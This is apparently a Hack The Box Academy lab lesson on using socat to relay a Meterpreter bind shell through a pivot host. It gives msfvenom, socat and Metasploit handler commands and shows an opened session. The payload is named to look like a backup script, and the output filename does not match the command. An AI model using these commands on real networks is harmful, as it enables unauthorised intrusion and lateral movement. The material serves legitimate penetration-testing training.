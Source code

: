 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/158/section/1429
// Platform Version: V1
// Module ID: 158
// Module Name: Pivoting, Tunneling, and Port Forwarding
// Module Difficulty: Medium
// Section ID: 1429
// Section Title: Socat Redirection with a Bind Shell
// Page Title: Pivoting, Tunneling, and Port Forwarding
// Page Number: 07
-->

# Socat Redirection with a Bind Shell

**Module Name:** Pivoting, Tunneling, and Port Forwarding **Page Number:** 07

#### PIVOTING, TUNNELING, AND PORT FORWARDING

# Socat Redirection with a Bind Shell

![https://academy.hackthebox.com/storage/modules/158/55.png](https://academy.hackthebox.com/storage/modules/158/55.png)

#### Creating the Windows Payload

``` shell-session
[!bash!]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 499 bytes
Final size of exe file: 7168 bytes
Saved as: backupjob.exe
```

#### Starting Socat Bind Shell Listener

``` shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

#### Configuring & Starting the Bind multi/handler

``` shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

#### Establishing Meterpreter Session

``` shell-session
[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```

# 

# 

#### Questions

####